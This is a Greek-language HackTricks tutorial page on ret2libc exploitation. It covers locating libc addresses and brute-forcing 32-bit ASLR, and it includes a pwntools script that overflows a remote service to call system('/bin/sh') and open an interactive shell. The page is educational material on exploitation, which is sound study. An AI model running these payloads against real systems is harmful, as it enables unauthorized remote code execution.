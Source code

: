 # Ret2lib

<details>

<summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Ειδικός Red Team του HackTricks AWS)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι υποστήριξης του HackTricks:

* Αν θέλετε να δείτε την **εταιρεία σας διαφημισμένη στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα τηλεγραφήματος**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>

## **Βασικές Πληροφορίες**

Η ουσία του **Ret2Libc** είναι να ανακατευθύνει τη ροή εκτέλεσης ενός ευάλωτου προγράμματος σε μια συνάρτηση μέσα σε ένα κοινόχρηστο βιβλιοθήκη (π.χ., **system**, **execve**, **strcpy**) αντί να εκτελεί κώδικα κέλυφους που παρέχεται από τον εισβολέα στη στοίβα. Ο εισβολέας δημιουργεί ένα φορτίο που τροποποιεί τη διεύθυνση επιστροφής στη στοίβα για να δείχνει στην επιθυμητή συνάρτηση βιβλιοθήκης, ταυτόχρονα διαμορφώνοντας τυχόν απαραίτητα ορίσματα για να ρυθμιστούν σωστά σύμφωνα με τον κανόνα κλήσης.

### **Βήματα Παραδείγματος (απλουστευμένα)**

* Αποκτήστε τη διεύθυνση της συνάρτησης που θέλετε να καλέσετε (π.χ. system) και την εντολή που θέλετε να καλέσετε (π.χ. /bin/sh)
* Δημιουργήστε μια ROP αλυσίδα για να περάσετε το πρώτο όρισμα που δείχνει στο αλφαριθμητικό εντολής και τη ροή εκτέλεσης στη συνάρτηση
```bash
ldd /path/to/executable | grep libc.so.6 #Address (if ASLR, then this change every time)
```
{% endcode %}

Αν θέλετε να ελέγξετε αν το ASLR αλλάζει τη διεύθυνση της libc μπορείτε να κάνετε:
```bash
for i in `seq 0 20`; do ldd ./<bin> | grep libc; done
```
* Γνωρίζοντας το libc που χρησιμοποιείται, είναι επίσης δυνατό να βρεθεί το offset για τη συνάρτηση `system` με:
```bash
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
```
* Γνωρίζοντας το libc που χρησιμοποιείται, είναι επίσης δυνατό να βρεθεί το offset για το string `/bin/sh` function με:
```bash
strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh
```
### Χρησιμοποιώντας το gdb-peda / GEF

Γνωρίζοντας την βιβλιοθήκη libc που χρησιμοποιείται, είναι επίσης δυνατό να χρησιμοποιηθεί το Peda ή το GEF για να ανακτηθεί η διεύθυνση της συνάρτησης **system**, της συνάρτησης **exit** και του string **`/bin/sh`** :
```
p system
p exit
find "/bin/sh"
```
### Χρήση /proc/\<PID>/maps

Αν η διεργασία δημιουργεί **παιδιά** κάθε φορά που επικοινωνείτε μαζί της (διακομιστής δικτύου), προσπαθήστε να **διαβάσετε** αυτό το αρχείο (πιθανόν θα χρειαστείτε δικαιώματα ριζού).

Εδώ μπορείτε να βρείτε **ακριβώς πού φορτώνεται η libc** μέσα στη διεργασία και **πού θα φορτωθεί** για κάθε παιδί της διεργασίας.

![](<../../../../.gitbook/assets/image (95).png>)

Σε αυτήν την περίπτωση φορτώνεται στη διεύθυνση **0xb75dc000** (Αυτή θα είναι η βασική διεύθυνση της libc)

## Άγνωστη libc

Μπορεί να είναι δυνατόν να **μην γνωρίζετε την libc που φορτώνει** το δυαδικό αρχείο (επειδή μπορεί να βρίσκεται σε έναν διακομιστή όπου δεν έχετε πρόσβαση). Σε αυτήν την περίπτωση μπορείτε να εκμεταλλευτείτε την ευπάθεια για **διαρροή μερικών διευθύνσεων και να βρείτε ποια βιβλιοθήκη libc** χρησιμοποιείται:

{% content-ref url="rop-leaking-libc-address/" %}
[rop-leaking-libc-address](rop-leaking-libc-address/)
{% endcontent-ref %}

Και μπορείτε να βρείτε ένα πρότυπο pwntools γι' αυτό στο:

{% content-ref url="rop-leaking-libc-address/rop-leaking-libc-template.md" %}
[rop-leaking-libc-template.md](rop-leaking-libc-address/rop-leaking-libc-template.md)
{% endcontent-ref %}

## Παράκαμψη του ASLR σε 32 bits

Αυτές οι επιθετικές επιθέσεις με brute-force είναι **χρήσιμες μόνο για συστήματα 32bit**.

* Αν η εκμετάλλευση είναι τοπική, μπορείτε να δοκιμάσετε να κάνετε brute-force τη βασική διεύθυνση της libc (χρήσιμο για συστήματα 32bit):
```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```
* Εάν επιτεθείτε σε ένα απομακρυσμένο διακομιστή, μπορείτε να προσπαθήσετε να **δοκιμάσετε με βία τη διεύθυνση της συνάρτησης `usleep` της `libc`**, περνώντας ως όρισμα τον αριθμό 10 (για παράδειγμα). Εάν σε κάποιο σημείο ο **διακομιστής χρειάζεται 10 δευτερόλεπτα παραπάνω για να ανταποκριθεί**, τότε βρήκατε τη διεύθυνση αυτής της συνάρτησης.

## One Gadget

{% content-ref url="../../one-gadget.md" %}
[one-gadget.md](../../one-gadget.md)
{% endcontent-ref %}

## x86 Παράδειγμα Κώδικα Ret2lib

Σε αυτό το παράδειγμα, η brute-force του ASLR ενσωματώνεται στον κώδικα και το ευάλωτο δυαδικό αρχείο βρίσκεται σε έναν απομακρυσμένο διακομιστή:
```python
from pwn import *

c = remote('192.168.85.181',20002)
c.recvline()

for off in range(0xb7000000, 0xb8000000, 0x1000):
p = ""
p += p32(off + 0x0003cb20) #system
p += "CCCC" #GARBAGE, could be address of exit()
p += p32(off + 0x001388da) #/bin/sh
payload = 'A'*0x20010 + p
c.send(payload)
c.interactive()
```
## Παράδειγμα Κώδικα x64 Ret2lib

Ελέγξτε το παράδειγμα από:

{% content-ref url="../rop-return-oriented-programing.md" %}
[rop-return-oriented-programing.md](../rop-return-oriented-programing.md)
{% endcontent-ref %}

## Ret-into-printf (ή puts)

Αυτό επιτρέπει την **διαρροή πληροφοριών από τη διεργασία** καλώντας το `printf`/`puts` με κάποια συγκεκριμένα δεδομένα τοποθετημένα ως όρισμα.

## Ret2printf

Αυτό σημαίνει ουσιαστικά την κατάχρηση ενός **Ret2lib για να το μετατρέψετε σε μια ευπάθεια συμβολοσειράς `printf`** χρησιμοποιώντας το `ret2lib` για να καλέσετε το printf με τις τιμές που εκμεταλλεύεστε (ακούγεται άχρηστο αλλά είναι δυνατό):

{% content-ref url="../../format-strings/" %}
[format-strings](../../format-strings/)
{% endcontent-ref %}
